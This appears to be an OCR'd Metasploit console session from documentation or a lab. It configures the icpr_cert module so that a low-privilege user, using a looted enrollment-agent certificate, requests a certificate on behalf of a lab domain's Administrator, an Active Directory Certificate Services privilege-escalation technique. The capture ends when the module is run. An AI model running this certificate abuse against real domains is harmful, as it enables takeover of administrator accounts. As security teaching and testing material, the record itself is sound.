 ```msf
   SMBDomain      DAFOREST                     no        The Windows domain to use for authentication
   SMBPass        normalpass                   no        The password for the specified username
   SMBUser        normaluser                   no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > set ON_BEHALF_OF DAFOREST\\Administrator
ON_BEHALF_OF => DAFOREST\Administrator
msf6 auxiliary(admin/dcerpc/icpr_cert) > set PFX /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
PFX => /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE User
CERT_TEMPLATE => User
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting                 Required  Description
   ----           ---------------                 --------  -----------
   ALT_DNS                                        no        Alternative certificate DNS
   ALT_UPN                                        no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA     yes       The target certificate authority
   CERT_TEMPLATE  User                            yes       The certificate template
   ON_BEHALF_OF   DAFOREST\Administrator          no        Username to request on behalf of (format: DOMAIN\USE
                                                            R)
   PFX            /home/gwillcox/.msf4/loot/2022  no        Certificate to request on behalf of
                  1216154930_default_unknown_win
                  dows.ad.cs_104207.pfx
   RHOSTS         172.30.239.85                   yes       The target host(s), see https://github.com/rapid7/me
                                                            tasploit-framework/wiki/Using-Metasploit
   RPORT          445                             yes       The target port (TCP)
   SMBDomain      DAFOREST                        no        The Windows domain to use for authentication
   SMBPass        normalpass                      no        The password for the specified username
   SMBUser        normaluser                      no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85
```